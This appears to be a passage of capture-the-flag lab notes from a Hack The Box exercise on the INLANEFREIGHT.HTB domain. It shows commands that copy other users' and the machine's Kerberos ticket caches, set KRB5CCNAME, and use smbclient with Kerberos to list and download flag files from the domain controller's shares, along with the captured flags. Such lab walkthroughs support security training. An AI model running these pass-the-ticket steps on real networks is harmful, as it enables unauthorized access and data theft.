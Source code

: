 Ticket cache: FILE:/root/krb5cc_647401106_HRJDux
Default principal: julio@INLANEFREIGHT.HTB

Valid starting     Expires            Service principal
10/07/22 11:32:01  10/07/22 21:32:01  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
	renew until 10/08/22 11:32:01


cp /tmp/krb5cc_647401106_bm0Tl7 .
export KRB5CCNAME=/root/krb5cc_647401106_bm0Tl7
klist

Valid starting     Expires            Service principal
11/06/23 12:55:02  11/06/23 22:55:02  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
	renew until 11/07/23 12:55:02


smbclient //dc01/c$ -k -c 'ls' -no-pass
smbclient //dc01/c$ -k -c 'recurse;ls' -no-pass
smbclient //dc01/c$ -k -c 'get julio/flag.txt /root/julio.txt' -no-pass

cat julio.txt 
JuL1()_N3w_fl@g

rm julio.txt
smbclient //dc01/julio -k -c 'get julio.txt /root/julio.txt' -no-pass

cat julio.txt 
JuL1()_SH@re_fl@g

cd /root
cp /var/lib/sss/db/ccache_INLANEFREIGHT.HTB .
export KRB5CCNAME=/root/ccache_INLANEFREIGHT.HTB
klist

Ticket cache: FILE:/root/ccache_INLANEFREIGHT.HTB
Default principal: LINUX01$@INLANEFREIGHT.HTB

Valid starting     Expires            Service principal
11/06/23 21:43:17  11/07/23 07:43:17  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
	renew until 11/07/23 21:43:17
11/06/23 21:43:17  11/07/23 07:43:17  ldap/dc01.inlanefreight.htb@
	renew until 11/07/23 21:43:17
11/06/23 21:43:17  11/07/23 07:43:17  ldap/dc01.inlanefreight.htb@INLANEFREIGHT.HTB
	renew until 11/07/23 21:43:17

smbclient //dc01/linux01 -k -c 'recurse;ls' -no-pass
smbclient //dc01/linux01 -k -c 'get flag.txt /root/flaglinux01.txt' -no-pass

cat flaglinux01.txt 
��Us1nG_KeyTab_Like_@_PRO